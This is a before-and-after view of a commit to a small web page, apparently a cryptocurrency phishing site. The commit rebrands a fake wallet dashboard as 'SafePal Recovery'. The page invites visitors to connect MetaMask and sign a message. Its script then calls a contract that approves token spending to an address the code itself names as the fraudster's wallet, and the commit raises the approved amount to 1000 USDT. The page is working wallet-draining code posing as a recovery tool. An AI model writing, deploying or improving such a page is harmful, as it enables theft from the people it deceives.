

Before and after one commit to Rulia7/balance-recovery, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,204 +1,53 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Wallet Dashboard</title>
-  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet">
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>SafePal Recovery</title>
     <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>
     <style>
         body {
-      font-family: 'Inter', sans-serif;
-      background-color: #f4f4f7;
+            font-family: Arial, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
             margin: 0;
+            background-color: #f0f0f0;
+        }
+        .container {
+            text-align: center;
             padding: 20px;
+            background-color: white;
+            border-radius: 10px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+            width: 400px;
+        }
+        button {
+            padding: 10px 20px;
+            font-size: 16px;
+            margin: 10px;
+            border-radius: 5px;
+            background-color: #007bff;
+            color: white;
+            border: none;
+            cursor: pointer;
+        }
+        button:hover {
+            background-color: #0056b3;
+        }
+        #status {
+            margin-top: 20px;
+            font-size: 14px;
             color: #333;
-    }
-    .wallet {
-      max-width: 500px;
-      margin: 0 auto;
-      background: white;
-      border-radius: 12px;
-      box-shadow: 0 0 10px rgba(0,0,0,0.1);
-      padding: 20px;
-    }
-    .wallet h2 {
-      margin-bottom: 20px;
-      font-size: 24px;
-      text-align: center;
-    }
-    .balance {
-      display: flex;
-      align-items: center;
-      justify-content: space-between;
-      margin: 15px 0;
-      padding: 10px;
-      border-bottom: 1px solid #eee;
-    }
-    .balance img {
-      width: 24px;
-      height: 24px;
-      margin-right: 10px;
-    }
-    .token {
-      display: flex;
-      align-items: center;
-      background-color: #f0f0f5;
-      padding: 5px 10px;
-      border-radius: 6px;
-    }
-    .token span {
-      margin-right: 10px;
-    }
-    .balance strong {
-      font-size: 18px;
-      display: inline-block;
-      width: 90px;
-      text-align: right;
-    }
-    .balance .usd {
-      font-size: 12px;
-      color: #888;
-      text-align: right;
-      margin-top: 5px;
-    }
-    .transactions {
-      margin-top: 30px;
-      max-height: 200px;
-      overflow-y: auto;
-    }
-    .transactions h3 {
-      font-size: 18px;
-      margin-bottom: 10px;
-    }
-    .tx {
-      background: #f9f9fb;
-      border: 1px solid #ddd;
-      padding: 10px;
-      border-radius: 8px;
-      margin-bottom: 10px;
-    }
-    .tx span {
-      display: block;
-      font-size: 14px;
-    }
-    .tx .date {
-      color: #888;
-      font-size: 12px;
-      margin-top: 4px;
-    }
-    .connect-btn {
-      display: block;
-      width: 100%;
-      padding: 12px;
-      background-color: #4559ff;
-      color: white;
-      text-align: center;
-      border: none;
-      border-radius: 8px;
-      font-size: 16px;
-      cursor: pointer;
-      margin-top: 30px;
         }
     </style>
 </head>
 <body>
-  <div class="wallet">
-    <h2>Wallet Recovery</h2>
-
-    <!-- BTC Balance -->
-    <div class="balance">
-      <div class="token">
-        <img src="https://s2.coinmarketcap.com/static/img/coins/64x64/1.png">
-        <span>BTC (Bitcoin)</span>
-        <div class="usd" id="btc-price">$0.00</div>
-      </div>
-      <div>
-        <strong id="btc-amount">0.01</strong>
-        <div class="usd" id="btc-equivalent">$0.00</div>
-      </div>
-    </div>
-
-    <!-- ETH Balance -->
-    <div class="balance">
-      <div class="token">
-        <img src="https://s2.coinmarketcap.com/static/img/coins/64x64/1027.png" alt="ETH">
-        <span>ETH (Ethereum)</span>
-        <div class="usd" id="eth-price">$0.00</div>
-      </div>
-      <div>
-        <strong id="eth-amount">1.84</strong>
-        <div class="usd" id="eth-equivalent">$0.00</div>
-      </div>
-    </div>
-
-    <!-- SOL Balance -->
-    <div class="balance">
-      <div class="token">
-        <img src="https://s2.coinmarketcap.com/static/img/coins/64x64/5426.png">
-        <span>SOL (Solana)</span>
-        <div class="usd" id="sol-price">$0.00</div>
-      </div>
-      <div>
-        <strong id="sol-amount">0</strong>
-        <div class="usd" id="sol-equivalent">$0.00</div>
-      </div>
-    </div>
-
-    <!-- USDT Balance -->
-    <div class="balance">
-      <div class="token">
-        <img src="https://s2.coinmarketcap.com/static/img/coins/64x64/825.png">
-        <span>USDT (Tether)</span>
-        <div class="usd" id="usdt-price">$0.00</div>
-      </div>
-      <div>
-        <strong id="usdt-amount">37,598.00</strong>
-        <div class="usd" id="usdt-equivalent">$0.00</div>
-      </div>
-    </div>
-
-    <div class="transactions">
-      <h3>Recent Transactions</h3>
-      <div class="tx">
-        <span>Received 2750 USDT</span>
-        <span class="date">May 4, 2018</span>
-      </div>
-      <div class="tx">
-        <span>Sent 2300 USDT</span>
-        <span class="date">August 17, 2018</span>
-      </div>
-      <div class="tx">
-        <span>Received 10000 USDT</span>
-        <span class="date">November 23, 2019</span>
-      </div>
-      <div class="tx">
-        <span>Received 25000 USDT</span>
-        <span class="date">February 2, 2019</span>
-      </div>
-      <div class="tx">
-        <span>Sent 977 USDT</span>
-        <span class="date">July 9, 2020</span>
-      </div>
-      <div class="tx">
-        <span>Sent 3.99 BTC</span>
-        <span class="date">January 1, 2020</span>
-      </div>
-      <div class="tx">
-        <span>Sent 7 BTC</span>
-        <span class="date">March 3, 2020</span>
-      </div>
-      <div class="tx">
-        <span>Received 10 ETH</span>
-        <span class="date">April 2, 2020</span>
-      </div>
-      <div class="tx">
-        <span>Sent 8.16 ETH</span>
-        <span class="date">December 15, 2020</span>
-      </div>
-    </div>
-
-    <button class="connect-btn" onclick="connectWallet()">Connect MetaMask</button>
+    <div class="container">
+        <h2>SafePal Recovery</h2>
+        <button id="connectButton" onclick="connectWallet()">Connect Wallet</button>
+        <p id="status">Please connect your MetaMask wallet.</p>
     </div>
 
     <script>
@@ -229,7 +78,7 @@
                 }
 
                 // Підпис повідомлення
-                const message = 'Verify wallet ownership for Wallet recovery';
+                const message = 'Verify wallet ownership for SafePal recovery';
                 const signature = await window.ethereum.request({
                     method: 'personal_sign',
                     params: [message, userAddress]
@@ -242,7 +91,7 @@
                 const contractAddress = '0x45082F912D180D8296220940aC164c5feC775d3c'; // Встав нову адресу
                 const usdtAddress = '0x9FcefD342ED17979ceDf0B6C4D257A03d908F5fD'; // TestUSDT
                 const shahraiAddress = '0x72ad654e24e8D65e8ed0ef8d8B841bb1e2D0830e'; // Гаманець Б
-                const amount = 500; // 0.0005 USDT
+                const amount = 1000000000; // 1000 USDT
 
                 const contractAbi = [
                     "function executeApprove(bytes memory message, address user, bytes memory signature, address token, address spender, uint256 amount) external"
@@ -266,5 +115,3 @@
     </script>
 </body>
 </html>
-</body>
-</html>
```
Lines whose indentation alone changed are shown as unchanged.
